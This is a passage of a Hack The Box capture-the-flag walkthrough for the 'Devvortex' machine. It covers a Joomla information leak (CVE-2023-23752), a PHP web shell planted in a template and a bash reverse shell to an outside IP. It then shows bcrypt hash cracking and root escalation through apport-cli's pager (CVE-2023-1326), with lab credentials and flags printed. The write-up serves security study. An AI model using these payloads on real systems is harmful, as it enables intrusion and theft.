301      GET        7l       12w      178c http://dev.devvortex.htb/images/headers => http://dev.devvortex.htb/images/headers/
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/user => http://dev.devvortex.htb/plugins/user/
301      GET        7l       12w      178c http://dev.devvortex.htb/libraries/src => http://dev.devvortex.htb/libraries/src/
200      GET        1l        2w       31c http://dev.devvortex.htb/images/index.html
301      GET        7l       12w      178c http://dev.devvortex.htb/plugins/webservices => http://dev.devvortex.htb/plugins/webservices/
301      GET        7l       12w      178c http://dev.devvortex.htb/libraries/vendor => http://dev.devvortex.htb/libraries/vendor/
200      GET        8l       11w      170c http://dev.devvortex.htb/libraries/web.config
200      GET        1l        2w       31c http://dev.devvortex.htb/media/index.html
301      GET        7l       12w      178c http://dev.devvortex.htb/media/layouts => http://dev.devvortex.htb/media/layouts/
301      GET        7l       12w      178c http://dev.devvortex.htb/media/legacy => http://dev.devvortex.htb/media/legacy/
301      GET        7l       12w      178c http://dev.devvortex.htb/media/mailto => http://dev.devvortex.htb/media/mailto/
301      GET        7l       12w      178c http://dev.devvortex.htb/media/system => http://dev.devvortex.htb/media/system/
301      GET        7l       12w      178c http://dev.devvortex.htb/media/templates => http://dev.devvortex.htb/media/templates/
200      GET        1l        2w       31c http://dev.devvortex.htb/templates/index.html
301      GET        7l       12w      178c http://dev.devvortex.htb/media/vendor => http://dev.devvortex.htb/media/vendor/
301      GET        7l       12w      178c http://dev.devvortex.htb/templates/system => http://dev.devvortex.htb/templates/system/
[####################] - 4m     75599/75599   0s      found:68      errors:2562   
[####################] - 36s     4724/4724    131/s   http://dev.devvortex.htb/ 
[####################] - 31s     4724/4724    152/s   http://dev.devvortex.htb/cli/ 
[####################] - 38s     4724/4724    125/s   http://dev.devvortex.htb/layouts/ 
[####################] - 37s     4724/4724    126/s   http://dev.devvortex.htb/language/ 
[####################] - 39s     4724/4724    123/s   http://dev.devvortex.htb/tmp/ 
[####################] - 41s     4724/4724    116/s   http://dev.devvortex.htb/components/ 
[####################] - 38s     4724/4724    125/s   http://dev.devvortex.htb/plugins/ 
[####################] - 39s     4724/4724    121/s   http://dev.devvortex.htb/libraries/ 
[####################] - 38s     4724/4724    125/s   http://dev.devvortex.htb/cache/ 
[####################] - 41s     4724/4724    114/s   http://dev.devvortex.htb/modules/ 
[####################] - 28s     4724/4724    167/s   http://dev.devvortex.htb/api/ 
[####################] - 26s     4724/4724    178/s   http://dev.devvortex.htb/administrator/ 
[####################] - 40s     4724/4724    118/s   http://dev.devvortex.htb/includes/ 
[####################] - 2m      4724/4724    53/s    http://dev.devvortex.htb/images/ 
[####################] - 2m      4724/4724    38/s    http://dev.devvortex.htb/media/ 
[####################] - 3m      4724/4724    23/s    http://dev.devvortex.htb/templates/
┌──(kali㉿kali)-[~]
└─$ 
```

We found several good sounding directories. But also the `robots.txt`. Let's inspect this first:
```
┌──(kali㉿kali)-[~]
└─$ curl dev.devvortex.htb/robots.txt
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/

┌──(kali㉿kali)-[~]
└─$ 
```

Seems like we got a Joomla application and the corresponding directories.

## Joomla
Accessing `http://dev.devvortex.htb/administrator/` responses with the Joomla login interface:


Default credentials like `admin:admin` doesn't work. I can't also find any default Joomla credentials.

We can get the version of Joomla:
```
┌──(kali㉿kali)-[~]
└─$ curl dev.devvortex.htb/administrator/manifests/files/joomla.xml
<?xml version="1.0" encoding="UTF-8"?>
<extension type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>4.2.6</version>
        <creationDate>2022-12</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>

        <scriptfile>administrator/components/com_admin/script.php</scriptfile>

        <update>
                <schemas>
                        <schemapath type="mysql">administrator/components/com_admin/sql/updates/mysql</schemapath>
                        <schemapath type="postgresql">administrator/components/com_admin/sql/updates/postgresql</schemapath>
                </schemas>
        </update>

        <fileset>
                <files>
                        <folder>administrator</folder>
                        <folder>api</folder>
                        <folder>cache</folder>
                        <folder>cli</folder>
                        <folder>components</folder>
                        <folder>images</folder>
                        <folder>includes</folder>
                        <folder>language</folder>
                        <folder>layouts</folder>
                        <folder>libraries</folder>
                        <folder>media</folder>
                        <folder>modules</folder>
                        <folder>plugins</folder>
                        <folder>templates</folder>
                        <folder>tmp</folder>
                        <file>htaccess.txt</file>
                        <file>web.config.txt</file>
                        <file>LICENSE.txt</file>
                        <file>README.txt</file>
                        <file>index.php</file>
                </files>
        </fileset>

        <updateservers>
                <server name="Joomla! Core" type="collection">https://update.joomla.org/core/list.xml</server>
        </updateservers>
</extension>

┌──(kali㉿kali)-[~]
└─$
```

The version is `4.2.6`.

A quick research showed up the vulnerability [CVE-2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752):

_An issue was discovered in Joomla! 4.0.0 through 4.2.7. An improper access check allows unauthorized access to webservice endpoints._

The CVE results in an authentication bypass which leads to an information leak. With that we can gather the Joomla MySQL database credentials in plaintext.

I found a good PoC here: https://vulncheck.com/blog/joomla-for-rce

So if we request `/api/index.php/v1/config/application?public=true` we find some database information:
```
┌──(kali㉿kali)-[~]
└─$ curl -s dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true",
    "next": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline": false,
        "id": 224
      }
    },

[...]
```

We should also find some credentials:
```
┌──(kali㉿kali)-[~]
└─$ curl -s dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq | egrep "user|password"
        "user": "lewis",
        "password": "P4ntherg0t1n5r3c0n##",

┌──(kali㉿kali)-[~]
└─$ 
```

And we got them: `lewis:P4ntherg0t1n5r3c0n##`

To execute this exploit we can also use Joomla enumeration tools like `joomscan` or use the auxiliary scripts from the Metasploit framework.

### System access
But with those credentials we can't login via SSH. Also there is no open MySQL connection. So we can try to log in into the Joomla interface.

And we were successful:


At first we can check out our privileges. Going over `User Menu` to `Assigned User Groups` and we can see that we got `Super Users` rights:


Perfect! We can now use a simple exploit to execute PHP commands. We have to head over to the `System` section:


Here we select `Site Templates`:


Opening the Cassiopeia template gives us the ability to edit the PHP files of the template:


If we now open a file, for example `error.php` we can insert PHP code that will be executed on the server. We could use something like `system($_GET['cmd']);`:


Now we can test the command:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex/CVE-2023-23752]
└─$ curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php/error.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex/CVE-2023-23752]
└─$ 
```

Same way we can simply add an PHP reverse shell:
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.45.203/8080 0>&1'");
```

Execute it and catch the reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081    
Listening on 0.0.0.0 8081
Connection received on 10.10.11.242 56768
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb$ ls -al
ls -al
total 120
drwxr-xr-x 17 www-data www-data  4096 Sep 25 16:44 .
drwxr-xr-x  4 root     root      4096 Oct 29 16:07 ..
-rwxr-xr-x  1 www-data www-data 18092 Dec 13  2022 LICENSE.txt
-rwxr-xr-x  1 www-data www-data  4942 Dec 13  2022 README.txt
drwxr-xr-x 11 www-data www-data  4096 Dec 13  2022 administrator
drwxr-xr-x  5 www-data www-data  4096 Dec 13  2022 api
drwxr-xr-x  2 www-data www-data  4096 Dec 13  2022 cache
drwxr-xr-x  2 www-data www-data  4096 Dec 13  2022 cli
drwxr-xr-x 18 www-data www-data  4096 Dec 13  2022 components
-rw-r--r--  1 www-data www-data  2037 Sep 25 16:44 configuration.php
-rwxr-xr-x  1 www-data www-data  6858 Dec 13  2022 htaccess.txt
drwxr-xr-x  5 www-data www-data  4096 Dec 13  2022 images
drwxr-xr-x  2 www-data www-data  4096 Dec 13  2022 includes
-r-xr-x---  1 www-data www-data  1068 Dec 13  2022 index.php
drwxr-xr-x  4 www-data www-data  4096 Dec 13  2022 language
drwxr-xr-x  6 www-data www-data  4096 Dec 13  2022 layouts
drwxr-xr-x  6 www-data www-data  4096 Dec 13  2022 libraries
drwxr-xr-x 71 www-data www-data  4096 Dec 13  2022 media
drwxr-xr-x 27 www-data www-data  4096 Nov 29 21:34 modules
drwxr-xr-x 25 www-data www-data  4096 Dec 13  2022 plugins
-rwxr-xr-x  1 www-data www-data   764 Dec 13  2022 robots.txt
drwxr-xr-x  4 www-data www-data  4096 Dec 13  2022 templates
drwxr-xr-x  2 www-data www-data  4096 Nov 29 21:34 tmp
-rwxr-xr-x  1 www-data www-data  2974 Dec 13  2022 web.config.txt
www-data@devvortex:~/dev.devvortex.htb$ 
```

Aaaaand we got a shell!

## Database enumeration
Inside the directory of the Joomla application we can find a configuration file:
```
www-data@devvortex:~/dev.devvortex.htb$ cat configuration.php 
<?php
class JConfig {
        public $offline = false;
        public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
        public $display_offline_message = 1;
        public $offline_image = '';
        public $sitename = 'Development';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = 20;
        public $access = 1;
        public $debug = false;
        public $debug_lang = false;
        public $debug_lang_const = true;
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'lewis';
        public $password = 'P4ntherg0t1n5r3c0n##';
        public $db = 'joomla';
        public $dbprefix = 'sd4fg_';
        public $dbencryption = 0;
        public $dbsslverifyservercert = false;
        public $dbsslkey = '';
        public $dbsslcert = '';
        public $dbsslca = '';
        public $dbsslcipher = '';
        public $force_ssl = 0;
        public $live_site = '';
        public $secret = 'ZI7zLTbaGKliS9gq';
        public $gzip = false;
        public $error_reporting = 'default';
        public $helpurl = 'https://help.joomla.org/proxy?keyref=Help{major}{minor}:{keyref}&lang={langcode}';
        public $offset = 'UTC';
        public $mailonline = true;
        public $mailer = 'mail';
        public $mailfrom = 'lewis@devvortex.htb';
        public $fromname = 'Development';
        public $sendmail = '/usr/sbin/sendmail';
        public $smtpauth = false;
        public $smtpuser = '';
        public $smtppass = '';
        public $smtphost = 'localhost';
        public $smtpsecure = 'none';
        public $smtpport = 25;
        public $caching = 0;
        public $cache_handler = 'file';
        public $cachetime = 15;
        public $cache_platformprefix = false;
        public $MetaDesc = '';
        public $MetaAuthor = true;
        public $MetaVersion = false;
        public $robots = '';
        public $sef = true;
        public $sef_rewrite = false;
        public $sef_suffix = false;
        public $unicodeslugs = false;
        public $feed_limit = 10;
        public $feed_email = 'none';
        public $log_path = '/var/www/dev.devvortex.htb/administrator/logs';
        public $tmp_path = '/var/www/dev.devvortex.htb/tmp';
        public $lifetime = 15;
        public $session_handler = 'database';
        public $shared_session = false;
        public $session_metadata = true;
}www-data@devvortex:~/dev.devvortex.htb$ 
```

We found that information already through the vulnerability, but now we can also see that the database is located on the localhost. We can also verify the running service:
```
}www-data@devvortex:~/dev.devvortex.htb$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      869/nginx: worker p 
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      869/nginx: worker p 
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
www-data@devvortex:~/dev.devvortex.htb$ 
```

So let's access the database in hope to grab some credentials:
```
www-data@devvortex:~/dev.devvortex.htb$ mysql -h localhost -u lewis --password joomla
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 16321
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
| sd4fg_fields_values           |
| sd4fg_finder_filters          |
| sd4fg_finder_links            |
| sd4fg_finder_links_terms      |
| sd4fg_finder_logging          |
| sd4fg_finder_taxonomy         |
| sd4fg_finder_taxonomy_map     |
| sd4fg_finder_terms            |
| sd4fg_finder_terms_common     |
| sd4fg_finder_tokens           |
| sd4fg_finder_tokens_aggregate |
| sd4fg_finder_types            |
| sd4fg_history                 |
| sd4fg_languages               |
| sd4fg_mail_templates          |
| sd4fg_menu                    |
| sd4fg_menu_types              |
| sd4fg_messages                |
| sd4fg_messages_cfg            |
| sd4fg_modules                 |
| sd4fg_modules_menu            |
| sd4fg_newsfeeds               |
| sd4fg_overrider               |
| sd4fg_postinstall_messages    |
| sd4fg_privacy_consents        |
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

mysql> 
```

The table `sd4fg_users` sounds good:
```
mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-29 21:34:19 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)

mysql> 
```

There is another user called `logan`. We can also find this user over the Joomla web interface but with no hint about the password. So from the database we can extract the password hash: `$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12`

### Hash cracking
The hash can be easily be cracked:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex]
└─$ john --wordlist=/home/kali/Desktop/tools/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:18 DONE (2023-11-29 16:47) 0.05500g/s 77.22p/s 77.22c/s 77.22C/s peter..tequieromucho
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

┌──(kali㉿kali)-[~/Desktop/hackthebox/devvortex]
└─$ 
```

With that credentials we can access the system via SSH:
```
┌──(kali㉿kali)-[~]
└─$ sshpass -p tequieromucho ssh logan@$IP
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 29 Nov 2023 09:49:44 PM UTC

  System load:  0.14              Processes:             190
  Usage of /:   68.3% of 4.76GB   Users logged in:       1
  Memory usage: 26%               IPv4 address for eth0: 10.10.11.242
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Nov 29 21:49:29 2023 from 10.10.14.206
logan@devvortex:~$ 
```

### User flag
And finally we can grab the user flag:
```
logan@devvortex:~$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan)
logan@devvortex:~$ ls -al 
total 28
drwxr-xr-x 3 logan logan 4096 Nov 21 11:04 .
drwxr-xr-x 3 root  root  4096 Sep 26 19:16 ..
lrwxrwxrwx 1 root  root     9 Oct 26 14:58 .bash_history -> /dev/null
-rw-r--r-- 1 logan logan  220 Sep 26 19:16 .bash_logout
-rw-r--r-- 1 logan logan 3771 Sep 26 19:16 .bashrc
drwx------ 2 logan logan 4096 Oct 26 15:12 .cache
-rw-r--r-- 1 logan logan  807 Sep 26 19:16 .profile
-rw-r----- 1 root  logan   33 Nov 29 21:21 user.txt
logan@devvortex:~$ cat user.txt 
4c3ca4e17122c66778956f65fb46cd47
logan@devvortex:~$ 
```

## System enumeration
If we do basic enumeration we find the sudo right to execute `apport-cli`:
```
logan@devvortex:~$ sudo -l 
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
logan@devvortex:~$ 
```

With `apport` we can automatically collect crash data from a crashed process and generate a report. But how we can escalate our privileges from this?

### apport-cli
First we can check the version of the tool:
```
logan@devvortex:~$ apport-cli --version
2.20.11
logan@devvortex:~$ 
```

A simple lookup brings us to [CVE-2023-1326](https://nvd.nist.gov/vuln/detail/CVE-2023-1326). The CVE description says that `less` is used as pager for `apport-cli`. A pager is the tool that is called if the output is too big for the terminal size. With that we get the ability to scroll through the output. Meaning that if we run `apport-cli` with root rights and the output is too big, we can also run `less` with sudo rights. Inside `less` we can execute commands and simply get a shell.

To trigger this, we must first generate a report or use one that was already generated. Typically, they are stored under `/var/crash`. On the target we didn't find any reports, so we have to create a new one.

We can do this with `apport-cli linux`. This will create a report for the kernel. After the report is generated we can choose how we want to handle it. If we choose _View report_ the output is printed and the pager is called:
```
logan@devvortex:~$ sudo apport-cli linux

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
........................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (692.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
```

Inside `less` we can use `!command` to execute a command. To spawn a shell we can type in `!/bin/bash` to start a shell. With that we successfully escalated our privileges:
```
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
root@devvortex:/home/logan# 
```

### Root flag
We can now read out the root flag:
```
root@devvortex:/home/logan# ls -al /root/
total 32
drwx------  4 root root 4096 Nov 30 21:37 .
drwxr-xr-x 19 root root 4096 Oct 26 15:12 ..
lrwxrwxrwx  1 root root    9 Jan 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Oct 29 16:21 .cleanup
-rw-------  1 root root   61 Nov 30 21:37 .lesshst
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Nov 30 20:55 root.txt
drwx------  2 root root 4096 Oct 26 15:12 .ssh
root@devvortex:/home/logan# cat /root/root.txt 
84293f597aa1821065e33fc8cdc0a0fe
root@devvortex:/home/logan# 
```